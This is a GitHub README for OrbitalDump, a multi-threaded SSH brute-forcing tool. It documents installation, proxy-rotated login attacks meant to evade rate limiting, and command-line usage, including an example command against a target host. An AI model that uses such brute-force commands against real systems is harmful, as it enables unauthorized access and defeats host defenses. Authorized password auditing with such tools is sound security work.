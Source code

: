 # OrbitalDump

A simple multi-threaded distributed SSH brute-forcing tool written in Python.

![image](https://user-images.githubusercontent.com/21986859/120943808-33072b00-c6ff-11eb-8386-b64a0ba2a12c.png)

## How it Works

When the script is executed without the `--proxies` switch, it acts just like any other multi-threaded SSH brute-forcing scripts. When the `--proxies` switch is added, the script pulls a list (usually thousands) of SOCKS4 proxies from [ProxyScrape](https://proxyscrape.com/) and launch all brute-force attacks over the SOCKS4 proxies so brute-force attempts will be less likely to be rate-limited by the target host.

## Installation

You can install OrbitalDump through pip.

```shell
pip install -U --user orbitaldump
orbitaldump
```

Alternatively, you can clone this repository and run the source code directly.

```shell
git clone https://github.com/k4yt3x/orbitaldump.git
cd orbitaldump
python -m orbitaldump
```

## Usages

A simple usage is shown below. This command below:

- `-t 10`: launch 10 brute-forcing threads
- `-u usernames.txt`: read usernames from usernames.txt (one username per line)
- `-p passwords.txt`: read passwords from passwords.txt (one password per line)
- `-h example.com`: set brute-forcing target to `example.com`
- `--proxies`: launch attacks over proxies from ProxyScrape

```shell
python -m orbitaldump -t 10 -u usernames.txt -p passwords.txt -h example.com --proxies
```

## Full Usages

You can obtain the full usages by executing OrbitalDump with the `--help` switch. The section below might be out-of-date.

```console
usage: orbitaldump [--help] [-t THREADS] [-u USERNAME] [-p PASSWORD] -h HOSTNAME [--port PORT] [--timeout TIMEOUT] [--proxies]

optional arguments:
  --help                show this help message and exit
  -t THREADS, --threads THREADS
                        number of threads to use (default: 5)
  -u USERNAME, --username USERNAME
                        username file path (default: None)
  -p PASSWORD, --password PASSWORD
                        password file path (default: None)
  -h HOSTNAME, --hostname HOSTNAME
                        target hostname (default: None)
  --port PORT           target port (default: 22)
  --timeout TIMEOUT     SSH timeout (default: 6)
  --proxies             use SOCKS proxies from ProxyScrape (default: False)
```
